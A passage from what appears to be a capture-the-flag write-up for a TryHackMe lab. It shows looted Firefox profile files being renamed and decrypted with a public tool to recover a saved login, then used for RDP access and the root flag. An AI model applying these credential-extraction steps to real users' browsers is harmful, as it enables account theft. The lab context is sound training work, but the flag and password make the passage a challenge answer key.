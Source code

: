 Copy downloaded files to some folder and clone the following directory: `https://github.com/unode/firefox_decrypt`.

Renaming the files:
```
vladislav@Mac GimmeTheLoot % mv 20221005230017_default_10.10.206.76_ff.ljfn812a.cert_577876.bin cert9.db
vladislav@Mac GimmeTheLoot % mv 20221005230018_default_10.10.206.76_ff.ljfn812a.cook_715879.bin cookies.sqlite
vladislav@Mac GimmeTheLoot % mv 20221005230019_default_10.10.206.76_ff.ljfn812a.key4_878520.bin key4.db
vladislav@Mac GimmeTheLoot % mv 20221005230020_default_10.10.206.76_ff.ljfn812a.logi_258189.bin logins.json
```

Installing `nss` library:
```bash
brew install nss
```

Running the script:
```
vladislav@Mac GimmeTheLoot % python3 firefox_decrypt/firefox_decrypt.py .
2022-10-05 23:09:54,403 - WARNING - profile.ini not found in .
2022-10-05 23:09:54,404 - WARNING - Continuing and assuming '.' is a profile location

Website:   https://creds.com
Username: 'mayor'
Password: '8CL7O1N78MdrCIsV'
vladislav@Mac GimmeTheLoot % 
```

Now we can use rdp to connect to our vulnerable machine. I used Microsoft Remote Desktop app.

<img src="/assets/images/THM/Gatekeeper/7.png" width="80%">

And finally on desktop we see `root.txt` which we can open.

> Locate and find the Root Flag `{Th3_M4y0r_C0ngr4tul4t3s_U}`
